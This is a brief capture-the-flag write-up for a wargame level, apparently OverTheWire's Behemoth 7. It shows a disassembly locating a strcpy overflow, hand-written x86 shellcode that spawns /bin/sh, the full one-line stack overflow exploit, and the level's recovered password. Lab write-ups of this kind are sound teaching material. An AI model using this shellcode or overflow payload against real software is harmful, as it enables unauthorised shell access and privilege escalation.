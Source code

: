 ```assembly
 0x565557d1 <+289>:	je     0x565557e0 <main+304>
 0x565557d3 <+291>:	cmpl   $0x1ff,-0x24(%ebp)			# Here the cmp instruction, after that we have strcpy. 
 0x565557da <+298>:	jle    0x5655574f <main+159>
 0x565557e0 <+304>:	mov    0x4(%esi),%eax
 0x565557e3 <+307>:	add    $0x4,%eax
 0x565557e6 <+310>:	mov    (%eax),%eax
 0x565557e8 <+312>:	sub    $0x8,%esp
 0x565557eb <+315>:	push   %eax
 0x565557ec <+316>:	lea    -0x224(%ebp),%eax
 0x565557f2 <+322>:	push   %eax
 0x565557f3 <+323>:	call   0x565554c0 <strcpy@plt>
 ```

So this is the shellcode:

```assembly
.text
.global _start
_start:
    jmp string
prot:
    xorl    %esi,%esi
    popl    %esi
    xorl    %ebx,%ebx
    xorl    %ecx,%ecx
    xorl    %eax,%eax
    xorl    %edi,%edi
    movw    $0x32D0,%bx
    movw    $0x32D0,%cx
    movb    $0x46,%al
    int     $0x80
    xorl    %edx,%edx
    xorl    %ebx,%ebx
    xorl    %ecx,%ecx
    xorl    %eax,%eax
    movb    $0xB,%al
    movl    %esi,%ebx
    int     $0x80
    xorl 	%eax,%eax
	inc 	%eax                
    xor     %ebx, %ebx             
    int     $0x80
string:
	call prot
	p: .ascii "///////////////////////////////bin/sh"
```
And here the final exploit
```bash
./behemoth7 $(python -c 'print "a"*536+"\xf0\xd3\xff\xff"+"\xff\xd3\xff\xff"+"\x90"*16+"\xeb\x2c\x31\xf6\x5e\x31\xdb\x31\xc9\x31\xc0\x31\xff\x66\xbb\xd0\x32\x66\xb9\xd0\x32\xb0\x46\xcd\x80\x31\xd2\x31\xdb\x31\xc9\x31\xc0\xb0\x0b\x89\xf3\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xcf\xff\xff\xff\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x73\x68"')
```

##### pass=pheewij7Ae
